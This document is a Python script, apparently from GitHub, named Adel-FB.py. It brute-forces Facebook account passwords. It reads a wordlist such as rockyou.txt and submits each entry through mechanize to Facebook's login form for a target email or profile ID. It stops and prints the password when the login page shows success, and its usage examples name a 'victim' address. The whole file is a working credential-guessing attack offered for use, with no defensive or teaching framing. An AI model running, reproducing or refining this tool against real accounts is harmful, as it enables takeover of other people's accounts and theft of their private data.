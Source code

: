 #!/usr/bin/python
# -*- coding: utf-8 -*-

#(^-^)
try:
 ##----------- Import Libraries -----------##
 import socket,time,os,optparse,mechanize  ##
 ##----------------------------------------##
except ImportError:
	print("[!] The [ mechanize library ] is Missing!\n[*] Please Install it Using this command> [ pip install mechanize ]")
	exit(1)
################## check internet #################
server = "www.google.com"                         #
def check():                                      #
   try:                                           #
      s = socket.gethostbyname(server)            #
      ss = socket.create_connection((s, 80), 2)   #
      return True                                 #
   except:                                        #
         pass                                     #
   return False                                   #
                                                  #
check = check()                                   #
###################################################

parse = optparse.OptionParser("""
Usage: python ./Adel-FB.py -T [TARGET]<Email/ID> -W <Wordlist file>
-------------
OPTIONS:
       |
    |--------    
    | -t <target email> [OR] <FACEBOOK ID>        ::>   Set target Email [OR] Target Profile ID
    |--------
    | -w <word list file>                         ::>   Set Wordlist File 
-------------
Examples:
        |
     |--------
     | python Adel-FB.py -t victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python Adel-FB.py -t 100001013078780 -w C:\Users\Me\Desktop\wordlist.txt
     |--------

""")
def Main():
   parse.add_option("-t","--target",'-T','--TARGET',dest="taremail",type="string",
			help="target email !")
   parse.add_option("-w","--wordlist",'-W','--WORDLIST',dest="wlst",type="string",
			help="wordlist file !")
   (options,args) = parse.parse_args()

   if options.taremail !=None and options.wlst !=None: 
     user = options.taremail
     passw = options.wlst
     global check
     if check == True:
         try:
             passwfile = open(passw, "r")
         except IOError:
             print("\n[!] No Such File: "+passw+"  !!!\n")
             exit(1)
         os.system("cls||clear")
         time.sleep(0.10)
         print("\n[*] website>: www.facebook.com ")
         time.sleep(0.10)
         if "@" in user:
          print("\n[+] Target Email>: "+str(user))
         else:
             print("\n[+] Target FB~ID>: "+str(user))
         time.sleep(0.10)
         print("\n[@] WordList>: "+str(passw))
         time.sleep(0.10)
         print("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
         time.sleep(0.20)
         print("\n[$]--- FB-Adel Ait mouali ---[$]\n")
         time.sleep(0.8)
         lo = 1
         for password in passwfile:
             if not password.strip(): continue
             password = password.strip()
             try:
                 br=mechanize.Browser()
                 br.set_handle_robots(False)
                 br.addheaders=[('User-agent', "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36")]
                 br.open("https://facebook.com")
                 br.select_form(nr=0)
                 br.form["email"]=user
                 br.form["pass"]=password
                 br.method="POST"
                 res = br.submit()
                 if "home_icon" in res.get_data():
                     print("[+]~[{}] Testing Password[ {} ]  ==> Yes :)".format(lo,password))
                     print ("\n[*] Found! Password is ==> "+ password)
                     break
                 else:
                     print('[-]~[{}] Testing Password[ {} ] ==> No :('.format(lo,password))
                     lo +=1
             except KeyboardInterrupt:
                 print('\n---------------------------\n[!][CTRL+C] Exiting.....!\n')
                 time.sleep(1.2)
                 exit(1)
			
     elif check == False:
         print("\n[!] Error: Please Check Your Internet Connection !!!")
         exit(1)
   else:
       print(parse.usage)
       exit(1)
	
if __name__=='__main__':
	Main()
	
##############################################################
##################### 		     #########################
#####################   END OF TOOL  #########################
#####################                #########################
##############################################################
#This Tool by Adel Ait Mouali
#Have a nice day :)
#GoodBye
